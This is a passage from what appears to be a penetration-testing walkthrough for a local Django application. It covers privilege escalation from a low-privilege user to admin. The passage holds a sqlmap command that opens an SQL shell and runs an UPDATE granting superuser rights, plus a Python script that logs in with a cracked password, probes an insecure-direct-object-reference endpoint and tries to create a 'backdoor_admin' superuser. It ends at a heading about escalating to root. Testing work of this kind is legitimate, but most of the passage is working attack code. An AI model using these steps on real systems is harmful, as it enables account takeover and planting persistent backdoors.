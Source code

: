 
## 5. Privilege Escalation

### 5.1 From Regular User to Admin

**Scenario:** You've gained access as a low-privilege user (john_doe)

**Method 1: SQL Injection Privilege Escalation**

```bash
# Using the SQL injection from earlier, promote user to superuser
python sqlmap/sqlmap.py -u "http://localhost:8000/api/v1/projects?field=id" \
  --sql-shell

# In SQL shell:
UPDATE auth_user SET is_superuser=true, is_staff=true WHERE username='john_doe';
```

**Method 2: Exploit Permission Bugs**

```python
# permission_bypass.py
# Look for permission checks that can be bypassed

import requests

session = requests.Session()

# Login as regular user
session.post("http://localhost:8000/admin/login/", data={
    'username': 'john_doe',
    'password': 'userpass123',  # Cracked earlier
    'csrfmiddlewaretoken': 'TOKEN'
})

# Try accessing admin-only endpoints with parameter pollution
# Or IDOR (Insecure Direct Object Reference)
r = session.get("http://localhost:8000/api/v1/users/1")  # Admin user ID
print(r.text)

# Try POST to create admin user
r = session.post("http://localhost:8000/api/v1/users", json={
    'username': 'backdoor_admin',
    'password': 'BackdoorPass123!',
    'is_superuser': True,  # Usually filtered, but worth trying
    'is_staff': True
})
```

---

### 5.2 From Application to System (Scenario B)

**Scenario:** You have compromised the Django application, now escalate to root on the laptop.
